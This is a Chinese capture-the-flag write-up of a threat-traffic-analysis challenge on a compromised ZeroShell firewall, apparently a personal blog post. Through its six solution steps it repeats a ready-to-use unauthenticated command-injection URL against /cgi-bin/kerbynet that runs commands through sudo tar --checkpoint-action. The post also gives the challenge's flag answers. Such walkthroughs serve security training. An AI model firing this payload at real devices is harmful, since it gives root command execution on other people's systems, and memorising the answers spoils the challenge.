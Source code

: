 ```yaml
---
title: 2024长城杯&CISCN-威胁流量分析-zeroshell
subtitle:
date: 2025-03-14T14:47:04+08:00
slug: 2cd83e6
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 玄机
categories:
  - 玄机
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

```
1.从数据包中找出攻击者利用漏洞开展攻击的会话（攻击者执行了一条命令)，写出该会话中设置的flag。
2.通过漏洞利用获取设备控制权限，然后查找设备上的flag文件，提取flag文件内容。
3.找出受控机防火墙设备中驻留木马的外联域名或IP地址，结果提交形式：flag{xxxx}，如flag{www.abc.com}或flag{16.122.33.44}
4.请写出木马进程执行的本体文件的名称，结果提交形式：flag{xxxx}，仅写文件名不加路径
5.请提取驻留的木马本体文件，通过逆向分析找出木马样本通信使用的加密密钥。结果提交形式
6.请写出驻留木马的启动项，注意写出启动文件的完整路径。结果提交形式：flag{xxxxxxx}，如flag{/a/b/c}
```

1、分析流量包，防火墙的ip为`61.139.2.100`，猜测攻击为web的HTTP，

```
ip.addr == 61.139.2.100 && http
```

![](images/38b6d72a4d22107cbd249efd5ffbad5d.png)
追踪HTTP流，
![](images/f83580bcd2882c95e27bf21748f56e01.png)
从Get可知，执行了`ps -ef`命令，才会有这个回显，对Referer部分base64解码
![](images/74f69a89d02667d5c958136e5ff24adb.png)
拿到第一题flag：flag{6C2E38DA-D8E4-8D84-4A4F-E2ABD07A1F3A}

2、第一问的分析过程中，发现执行了`ps -ef`命令，说明存在命令执行RCE。根据第一问分析过程中的playload去进行攻击，仅需要修改`ps -ef`命令部分，即可去查找flag文件
修改前：

``` 
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='ps -ef'%0A'
```

修改后：

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='find / -name 'flag''%0A'
```

仅把`ps%20-ef`修改为`find%20/%20-name%20'flag'` 
![](images/fa1ff9a727f1e891ec8f29944d62c932.png)
发现了flag文件，按照顺序尝试进行读取，还是现成的playload构造`tac`指令，拿到/Database/flag文件内容。

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='cat /Database/flag'%0A'
```

![](images/1334dd4dbdfaa34a6170ff4d7981e78d.png)
拿到第二问flag：flag{c6045425-6e6e-41d0-be09-95682a4f65c4}

3、找出驻留木马的外联域名，意思就是我们现在需要去获得当前系统的网络连接、路由表、接口信息等，在linux中需执行`netstat -anop`，根据给出的playload继续打

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='netstat -anop'%0A'
```

在url前加上view-source:应该更容易观察、分析

```
view-source:http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='netstat -anop'%0A'
```

![](images/e20fc419674daa34377b7cb223083da1.png)
发现一个特殊ip，应该就是要寻找的ip
第三问flag：flag{202.115.89.103}

4、木马进程执行的本体文件的名称，上一问，我们在分析木马ip时同时找出来运行的pid，继续用playload执行`ls -l /proc/10541`命令，pid为`10541`的文件就是本体文件

```
cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='ps'%0A'
```

![](images/47dd08b932623b9d070f49da6fb33d43.png)
第四问flag：flag{.nginx}

第五问让我们寻找加密密钥，我们先把`.nginx`文件down到本地。先找到`.nginx`文件的具体位置，用`cat`查看`.nginx`。
`ls -l /proc/10541`查找具体路径

``` 
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='ls%20-l /proc/10541'%0A'
```

![](images/11ee9d23d5a06bf3fb8dd4050251fd4f.png)
再用`cat`查看

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='cat /tmp/.nginx'%0A'
```

尝试再页面内搜索`202.115.89.103`恶意ip
![](images/5a6fe911cc960783f86241691f3ab12c.png)
发现其后跟着一堆数字字母，猜测是密钥了
第五问flag：flag{11223344qweasdzxc}

6、已经知道木马文件的名称了，直接使用`grep`查找，尝试在各个目录里查找，最后在`/var`目录发现

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='grep -r ".nginx" /var'%0A'
```

![](images/bb68f1b78c46f3439e9ca232aa417f78.png)
第六问flag：flag{/var/register/system/startup/scripts/nat/File}
